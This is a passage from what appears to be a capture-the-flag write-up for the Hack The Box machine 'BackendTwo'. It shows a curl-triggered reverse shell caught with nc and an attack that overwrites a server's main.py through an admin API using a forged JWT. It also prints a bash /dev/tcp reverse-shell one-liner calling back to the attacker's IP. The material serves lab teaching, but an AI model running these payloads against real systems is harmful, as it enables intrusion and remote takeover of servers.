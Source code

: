 I’ll trigger it, and it hangs:

```

0xdf@hacky$ curl http://10.10.11.162/api/v1/user/-223

```

At `nc`, there’s a shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.162 58622
bash: cannot set terminal process group (1687): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

htb@BackendTwo:~$

```

I’ll do the standard shell upgrade:

```

htb@BackendTwo:~$ script /dev/null -c bash
Script started, file is /dev/null                                   
htb@BackendTwo:~$ ^Z                                                
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443                                                        
            reset                                                   
reset: unknown terminal type unknown
Terminal type? screen                                               
htb@BackendTwo:~$

```

#### Overwrite Server

It’s much less stealthy and bad technique, but technically I could just overwrite `main.py` (or any file) and have that execute. It will bring down the server for everyone. My new file is just:

```

import os; os.system("bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'")

```

Still, it works:

```

oxdf@hacky$ curl http://10.10.11.162/api/v1/admin/file/$(echo -n "/home/htb/app/main.py" | base64) -H 'Content-Type: application/json' -d '{"file": "import os; os.system(\"bash -c '\''bash -i >& /dev/tcp/10.10.14.6/443 0>&1'\''\")"}' -H 'Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUxNzU1MzYxLCJpYXQiOjE2NTEwNjQxNjEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODNlM2VkN2EtZDY2ZC00YTI3LWE5MjItNzAxZmI5ZmRjNzU1IiwiZGVidWciOnRydWV9.oyFkKgOC6zls6IY7i3-IOalxgFWXfyR3SRVlFVovLao'
{"result":"success"}

```
